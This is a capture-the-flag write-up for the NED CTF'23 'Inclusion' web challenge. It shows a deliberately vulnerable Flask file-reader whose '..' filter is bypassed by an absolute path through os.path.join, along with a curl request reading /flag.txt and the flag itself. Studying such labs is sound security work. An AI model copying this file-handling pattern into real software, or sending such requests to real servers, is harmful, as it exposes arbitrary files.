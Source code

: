 ```yaml
---
title: NED CTF'23 - Web - Inclusion
date: '2023-07-03'
tags: ['ctf', 'web', 'nedctf', 'writeup', 'file-inclusion', 'flask']
draft: false
summary: Inclusion was a very simple file inclusion challenge in which we had to include /flag.txt to read the flag.
---
```


## Challenge Description

"A path to explore, a journey to embark. The challenge is hidden, but not in the dark. Traverse the way, and find your mark. The flag is waiting, for you to hark."

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

[Challenge-Link](http://159.223.192.150:5001/)

![chal-info](/static/writeups/nedctf/web/inclusion0.png)

## Solution

The challenge description is a hint to the challenge. The challenge is a simple file inclusion challenge. Downloading the files, we see the following files are given to us:

![files](/static/writeups/nedctf/web/inclusion1.png)

Now, let's checkout `app.py`

```python:app.py
import os
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    file_name = request.args.get("file")
    if file_name is None:
        return "No file name specified."
    if ".." in file_name:
        return "Invalid file name."
    file_path = os.path.join("/dev/null", file_name)
    try:
        with open(file_path, "r") as f:
            contents = f.read()
            return contents
    except:
        return "The file does not exist or cannot be opened."

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5001)
```

Well, we can see that, we need to provide an argument `file` to the server, which will be used to open a file. Now, the `/dev/null` is being used with `os.path.join`, however, it doesn't have any effect on the file path. So, we can simply use a parameter like `file=flag.txt` to get the flag. However, the `..` is being filtered, so we can't use `file=../flag.txt`. So, let's look at the `Dockerfile` and see where the flag is being stored

```Dockerfile:Dockerfile
FROM python:3.9-alpine

WORKDIR /app
COPY app.py /app/
COPY flag.txt /

RUN pip install flask

EXPOSE 5001
CMD ["python3", "app.py"]
```

Well, the flag is being copied to `/`, so, if we pass the following parameter `?file=/flag.txt`, we can get the flag, let's get the flag:

```bash
$ curl http://159.223.192.150:5001?file=/flag.txt
```

![flag](/static/writeups/nedctf/web/inclusion2.png)

```md
Flag: NCC{l0c4l_f1l3_1nclu5i0n_ex!sts}
```